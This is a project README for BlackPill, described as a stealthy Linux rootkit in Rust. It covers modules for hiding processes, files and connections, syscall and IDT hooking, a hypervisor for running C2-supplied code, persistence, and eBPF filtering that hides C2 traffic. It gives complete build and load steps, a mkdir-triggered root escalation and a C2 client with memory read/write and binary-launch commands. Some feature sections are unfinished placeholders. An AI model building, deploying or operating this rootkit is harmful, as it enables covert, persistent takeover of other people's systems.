 <h1 align="center">BlackPill</h1>
<p align="center">BlackPill is a stealthy Linux rootkit made in Rust.<p>
<div align="center">
    <img alt="Open issues"     src="https://img.shields.io/github/issues/DualHorizon/blackpill?style=for-the-badge&color=%23973B21&labelColor=%230C1510">
    <img alt="Commit activity" src="https://img.shields.io/github/commit-activity/w/DualHorizon/blackpill?style=for-the-badge&color=%23973B21&labelColor=%230C1510">
    <img alt="License"         src="https://img.shields.io/github/license/DualHorizon/blackpill?style=for-the-badge&color=%23973B21&labelColor=%230C1510">
</div>

## Features

The rootkit is composed of multiple modules (talking about Rust modules, not kernel modules) :

- **hiding**: hide files, processes, network connections, etc.
- **hooking**: hook syscalls and IDT
- **hypervisor**: create a virtual machine to execute malicious code
- **persistence**: make the rootkit persistent after reboot and resilient to supression
- **utils**: various utilities
- **xdp**: hook network packets

The architecture looks as the following :

![Rootkit simple architecture schema](assets/blackpill-rootkit-overview.drawio.png)

And here is how malicious code is executed from C2 to VM guest :

![Rootkit code execution sequence diagram](assets/blackpill-sequence-diagram.drawio.png)

C2 sends crafted assembled x86_64 mnemonics to the rootkit, which then sends it to the VM guest to execute it. The VM guest is isolated from the host and can be used to execute malicious code.

Kernel do not see incoming malicous packets as they are filtered by the eBPF XDP hook and sent to the LKM module, and outgoing packets are filtered by the eBPF TC program.

### Hooking

describe hooked syscalls

### Hiding

describe hidden files, processes, network connections, etc.

### Hypervisor

describe hypervisor

### Persistence

describe persistence

## Development environment

### Description

Multiple steps needs to be done before compiling our rootkit. The development environment is composed of :

- a simple Alpine Linux image providing essential tools
- a custom compiled kernel with Rust activated
- a simple QEMU virtual machine accelerated by KVM

Start by cloning the repository and its shallow submodules :

```shell
git clone git@github.com:DualHorizon/blackpill.git --recursive --depth 1
```

### Important dependencies

On an arch-based distribution :

```shell
sudo pacman -S qemu-base qemu-desktop docker grub
```

### Linux kernel

On an arch-based Linux distribution, install Rust and other dependencies :

```shell
sudo pacman -S rust rust-src rust-bindgen
sudo pacman -S clang lld llvm
```

Then we'll need Rust sources and bindgen :

```shell
rustup component add rust-src clippy rustfmt
cargo install --locked bindgen-cli
```

Make sure you can start compiling your kernel with Rust by running in folder `linux/` :

```shell
$ cd blackpill
$ pushd linux
$ make LLVM=1 rustavailable
Rust is available!
$ popd
```

Launch the first time setup task which configures and compiles the kernel :

```shell
make first-time-setup
```

> [!IMPORTANT]
> If you are asked of customizing options, press Enter each time.

### Rootkit

You can compile the Rust kernel module (out-of-tree) with :

```shell
make
```

Launch the VM with :

```shell
make vm
```

Inside the VM, you are auto logged in `root`. You can enable the module :

```shell
$ modprobe blackpill
# you can check kernel logs with
$ dmesg
```

## LPE Usage :

Once the vm started you can use the command above to escalate your privilege :
```shell
mkdir ImFeelingRootNow_
```

## C2 Usage

Setup the python client :
```shell
cd blackpill-c2
poetry install
poetry shell
python client.py
```
After launching the client with your args ([ip] [port]) you should get :

```python
➜ python client.py 0.0.0.0 1339
Connected to rootkit!
```
Then you can use the help command to display available commands :
```python
blackpill: help
Available Commands
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Command                             ┃ Description                                             ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ read_virt_memory <address>          │ Read 4 bytes (32 bits) memory at 'address'              │
│ write_virt_memory <address> <value> │ Write 4 bytes (32 bits) memory at 'address'             │
│ launch_userland_binary <path>       │ Launch a userland binary at 'path'                      │
│ change_msr <msr> <value>            │ Change the value of a Model Specific Register (MSR)     │
│ read_phys_memory <address> <value>  │ Read 4 bytes (32 bits) of physical memory at 'address'  │
│ write_phys_memory <address> <value> │ Write 4 bytes (32 bits) of physical memory at 'address' │
│ stop_execution                      │ Stop the execution of the guest VM                      │
│ change_vmcs_field <field> <value>   │ Change a VMCS field to 'value'                          │
│ help                                │ Show this help message                                  │
└─────────────────────────────────────┴─────────────────────────────────────────────────────────┘
```

## Credits

Environment setup :

- [Setting Up an Environment for Writing Linux Kernel Modules in Rust - The Linux Foundation](https://www.youtube.com/watch?v=tPs1uRqOnlk)
- [Kernel config qemu-busybox-min.config patch](https://lore.kernel.org/rust-for-linux/20230609063118.24852-18-amiculas@cisco.com/)
- [Rust out-of-tree module](https://github.com/Rust-for-Linux/rust-out-of-tree-module)
